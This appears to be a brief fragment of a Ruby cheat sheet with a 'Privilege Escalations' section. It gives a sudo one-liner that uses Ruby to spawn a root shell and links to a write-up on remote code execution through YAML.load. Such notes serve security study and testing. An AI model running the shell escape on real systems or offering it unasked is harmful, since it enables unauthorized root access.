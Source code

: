 ## Security
### Priviledge Escalations

Just plain ruby:
```shell
sudo ruby -e 'exec "/bin/sh"'
```

Via Yaml.load:
https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/
